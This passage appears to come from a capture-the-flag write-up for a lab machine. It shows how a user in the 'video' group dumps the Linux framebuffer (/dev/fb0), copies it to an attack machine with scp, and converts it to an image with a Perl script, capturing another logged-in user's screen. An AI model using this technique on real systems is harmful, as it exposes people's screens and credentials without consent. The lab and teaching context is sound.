 The user is part of the group _video_, which can be used locally to give a set of users access to video devices such as the frame buffer. The output to screen is stored within the [frame buffer](https://www.kernel.org/doc/Documentation/fb/framebuffer.txt), which can be dumped to disk and converted to an image. This requires a user to be physically logged into the system.

To view who is logged into the system, we can use the _w_ command.

```text
moshe@falafel:~$ w
 06:42:18 up 2 days, 10:52,  2 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM     LOGIN@   IDLE   JCPU   PCPU WHAT
yossi    tty1              Thu19    2days  0.04s  0.04s -bash
```

The _yossi_ user has a TTY connection which means a direct connection to the computer, versus a PTS connection which are SSH and telnet connections. Let’s grab the frame buffer content from _/dev/fb0_ and save it in _/tmp_.

```text
cp /dev/fb0 /tmp/fb0.raw
```

Then, run the following command to get the width of the screen.

```text
moshe@falafel:/dev$ cat /sys/class/graphics/fb0/virtual_size | cut -d, -f1
1176
```

Run the following command to get the height of the screen.

```text
moshe@falafel:/dev$ cat /sys/class/graphics/fb0/virtual_size | cut -d, -f2
885
```

Then on the attack machine download _fb0.raw_.

```text
scp moshe@10.10.10.73:/tmp/fb0.raw .
```

Download the following script and save it in the file [raw2png](https://reboare.gitbooks.io/booj-security/content/general-linux/privilege-escalation.html).

```text
#!/usr/bin/perl -w

$w = shift || 240;
$h = shift || 320;
$pixels = $w * $h;

open OUT, "|pnmtopng" or die "Can't pipe pnmtopng: $!\n";

printf OUT "P6%d %d\n255\n", $w, $h;

while ((read STDIN, $raw, 2) and $pixels--) {
   $short = unpack('S', $raw);
   print OUT pack("C3",
      ($short & 0xf800) >> 8,
      ($short & 0x7e0) >> 3,
      ($short & 0x1f) << 3);
}

close OUT;
```
